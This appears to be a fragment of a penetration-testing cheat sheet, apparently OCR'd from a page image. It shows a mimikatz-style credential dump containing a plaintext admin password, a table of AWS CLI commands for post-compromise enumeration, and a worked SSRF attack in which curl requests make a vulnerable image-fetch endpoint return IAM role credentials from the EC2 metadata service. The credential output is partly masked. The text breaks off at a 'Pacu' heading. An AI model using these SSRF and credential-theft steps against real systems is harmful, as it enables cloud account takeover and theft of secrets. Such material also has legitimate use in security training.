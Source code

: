 ```
* Domain : MicrosoftAccount
* NTLM : 920a********REDACTED********3fa4
ssp :
credman :
[00000000]
* Username : admin
* Domain : 172.16.0.10
* Password : _AhxmAKs3Xwx7VhQ@sCo
```

### Cloud Environment

#### AWSCLIL

| subcommand | functionality |
| --- | --- |
| get-caller-identity | whoami like |
| ec2 describe-instances | List of instances |
| s3 ls | List buckets |
| lambda list-functions | List lambda functions |
| iam list-roles | List iam roles |
| iam list-users | List iam users |
| logs describe-log-groups | list CloudWatch logs |

#### AWS IMDSv1 (via SSRF)

```
~ $ curl -v
http://login.falsimentis.com/imgget.php?logo=http://169.254.169.254/latest/meta-
data/iam/security-credentials/; echo
aws-elasticbeanstalk-ec2-role
~ $ curl -v
http://login.falsimentis.com/imgget.php?logo=http://169.254.169.254/latest/meta-
data/iam/security-credentials/aws-elasticbeanstalk-ec2-role/; echo
{
"Code" : "Success",
"LastUpdated" : "2021-01-13T11:51:30Z",
"Type" : "AWS-HMAC",
"AccessKeyId" : "ASIAXXXXXXXXXXXXEETO",
"SecretAccessKey" : "Z/neXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXVT9",
"Token" : IQoJbajhUv5lxwL...QpGZhzL6/BN4uVgBP/zZkhShLmmYHULH6r5p91uG+Q==",
"Expiration" : "2021-01-13T18:07:24Z"
}
```

#### Pacu
